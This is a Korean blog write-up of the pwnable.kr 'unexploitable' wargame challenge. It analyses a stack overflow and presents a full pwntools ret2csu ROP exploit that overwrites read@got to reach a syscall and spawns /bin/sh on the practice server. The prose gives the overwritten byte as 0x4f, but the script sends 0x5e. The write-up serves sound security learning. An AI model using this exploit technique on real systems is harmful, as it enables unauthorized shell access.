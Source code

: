 ```yaml
---
layout: post
date: 2021-11-14
title: pwable.kr unexploitable write-up
tags: [ROP, pwnable, ]
categories: [wargame, pwnable.kr, ]
---
```


## 소스코드 분석


---


```c
#include <stdio.h>
void main(){
	// no brute forcing
	sleep(3);
	// exploit me
	int buf[4];
	read(0, buf, 1295);
}

```


코드는 간단하다. <br>
출력함수 없이 read 함수만 존재하고 bof가 터진다.<br><br>


## 취약점 분석


---


가젯이 많이 부족하다.<br>
쓸만한 가젯을 찾던 중에 syscall을 발견했고, csu 부분을 이용해서 execve를 실행시키면 될 거 같다.<br>
syscall은 read 함수의 got를 1byte 변조해서 사용했다.


```shell
pwndbg> disas read
Dump of assembler code for function __GI___libc_read:
   0x00007ffff7af2140 <+0>:	lea    rax,[rip+0x2e0891]        # 0x7ffff7dd29d8 <__libc_multiple_threads>
   0x00007ffff7af2147 <+7>:	mov    eax,DWORD PTR [rax]
   0x00007ffff7af2149 <+9>:	test   eax,eax
   0x00007ffff7af214b <+11>:	jne    0x7ffff7af2160 <__GI___libc_read+32>
   0x00007ffff7af214d <+13>:	xor    eax,eax
   0x00007ffff7af214f <+15>:	syscall

```


{: file='gdb'}


하위 1byte를 0x4f로 변조해줬다.<br>
<br>


사실 삽질을 굉장히 많이 했는데, 처음엔 sleep 함수의 got를 변조할 생각이었다.<br>
하지만 syscall의 주소가 sleep 함수의 got와 하위 1.5 byte가 달랐기 때문에 실패하였다.<br>


```shell
pwndbg> disas sleep
Dump of assembler code for function __sleep:
   0x00007ffff7ac6640 <+0>:	push   rbp
   0x00007ffff7ac6641 <+1>:	push   rbx
   0x00007ffff7ac6642 <+2>:	sub    rsp,0x28
   0x00007ffff7ac6646 <+6>:	mov    rbx,QWORD PTR [rip+0x30681b]        # 0x7ffff7dcce68
   0x00007ffff7ac664d <+13>:	mov    rax,QWORD PTR fs:0x28
   0x00007ffff7ac6656 <+22>:	mov    QWORD PTR [rsp+0x18],rax
   0x00007ffff7ac665b <+27>:	xor    eax,eax
   0x00007ffff7ac665d <+29>:	mov    eax,edi
   0x00007ffff7ac665f <+31>:	mov    rdi,rsp
   0x00007ffff7ac6662 <+34>:	mov    QWORD PTR [rsp+0x8],0x0
   0x00007ffff7ac666b <+43>:	mov    rsi,rdi
   0x00007ffff7ac666e <+46>:	mov    ebp,DWORD PTR fs:[rbx]
   0x00007ffff7ac6671 <+49>:	mov    QWORD PTR [rsp],rax
   0x00007ffff7ac6675 <+53>:	call   0x7ffff7ac6760 <__GI___nanosleep> # here

```


{: file='gdb'}


```shell
pwndbg> disas __GI___nanosleep
Dump of assembler code for function __GI___nanosleep:
   0x00007ffff7ac6760 <+0>:	lea    rax,[rip+0x30c271]        # 0x7ffff7dd29d8 <__libc_multiple_threads>
   0x00007ffff7ac6767 <+7>:	mov    eax,DWORD PTR [rax]
   0x00007ffff7ac6769 <+9>:	test   eax,eax
   0x00007ffff7ac676b <+11>:	jne    0x7ffff7ac6780 <__GI___nanosleep+32>
   0x00007ffff7ac676d <+13>:	mov    eax,0x23
   0x00007ffff7ac6772 <+18>:	syscall # here

```


{: file='gdb'}


때문에 read 함수의 syscall을 사용하기로 했다.
<br><br>
일단 read 함수를 통해서 bss 영역에 /bin/sh 문자열을 써주었고, 다시 read 함수를 사용해서 read@got를 syscall로 변조해줬다. <br>
하위 1byte를 변조했기 때문에 rax는 1로 세팅이 되어있었고, 덕분에 write 함수를 사용할 수 있었다. <br>
아무 곳에서 execve의 syscall number만큼 읽어들이면 rax가 그 숫자로 맞춰지기 때문에 rdi에 아까 써둔 문자열이 위치한 bss 영역의 주소를 넣어주면 쉘을 실행시킬 수 있다. <br>


<br>


## 익스플로잇


---


```python
#unexploitable.py
from pwn import *

s = ssh(user='unexploitable',host='pwnable.kr',port=2222,password='guest')
p = s.process("./unexploitable")

# p = process('./unexploitable')

e = ELF('./unexploitable')
bss = e.bss()

read_plt = e.plt['read']
read_got = e.got['read']

csu_init = p64(0x00000000004005e6)
csu_call = p64(0x00000000004005d0)

payload = 'A' * 24

payload += csu_init
payload += 'A' * 8
payload += p64(0)
payload += p64(1)
payload += p64(read_got)
payload += p64(0)
payload += p64(bss)
payload += p64(0x8)
payload += csu_call

payload += 'A' * 0x38

payload += csu_init
payload += 'A' * 8
payload += p64(0)
payload += p64(1)
payload += p64(read_got)
payload += p64(0)
payload += p64(read_got)
payload += p64(1)
payload += csu_call

payload += 'A' * 0x38

payload += csu_init
payload += 'A' * 8
payload += p64(0)
payload += p64(1)
payload += p64(read_got)
payload += p64(1)
payload += p64(read_got)
payload += p64(0x3b)
payload += csu_call

payload += 'A' * 0x38

payload += csu_init
payload += 'A' * 8
payload += p64(0)
payload += p64(1)
payload += p64(read_got)
payload += p64(bss)
payload += p64(0)
payload += p64(0)
payload += csu_call

p.send(payload)
sleep(3)
p.send('/bin/sh\\x00')
sleep(3)
p.send('\\x5e\\x00')

p.interactive()

```


<br>


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/db8d1d99-195e-4f89-8fd8-1fc58a1c83ef/1.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20230623%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20230623T203545Z&X-Amz-Expires=3600&X-Amz-Signature=beaa165bfeb910a143dc6e5a9bb30c09d5878f180c8bd2652dbd968727a87368&X-Amz-SignedHeaders=host&x-id=GetObject)


쉘을 획득했다.

